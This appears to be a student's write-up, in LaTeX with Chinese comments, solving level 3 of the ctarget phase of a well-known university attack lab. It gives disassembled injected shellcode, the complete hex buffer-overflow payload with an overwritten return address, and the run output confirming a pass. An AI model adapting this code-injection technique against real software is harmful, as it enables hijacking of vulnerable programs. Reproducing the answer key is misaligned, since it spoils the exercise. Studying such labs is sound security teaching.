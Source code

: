 \documentclass[12pt, a4paper, oneside]{ctexart}
\begin{document}
\begin{itemize}
\begin{lstlisting}
Disassembly of section .text:

0000000000000000 <.text>:
    0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
    7:	68 fa 18 40 00       	pushq  $0x4018fa
    c:	c3                   	retq 
\end{lstlisting}
    \item 所以答案为：
\begin{lstlisting}
48 c7 c7 a8 dc 61 55 68 fa 18
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 35 39
62 39 39 37 66 61 00 00 00 00
\end{lstlisting}
    \item 用 hex2raw 转化一下作为输入，成功跳转
\begin{lstlisting}
./hex2raw < ctarget_l3.txt > ctarget.l3
./ctarget -qi ctarget.l3    
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 A8 DC 61 55 68 FA 18 40 00 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 DC 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00  
\end{lstlisting}
\end{itemize}
\end{document}
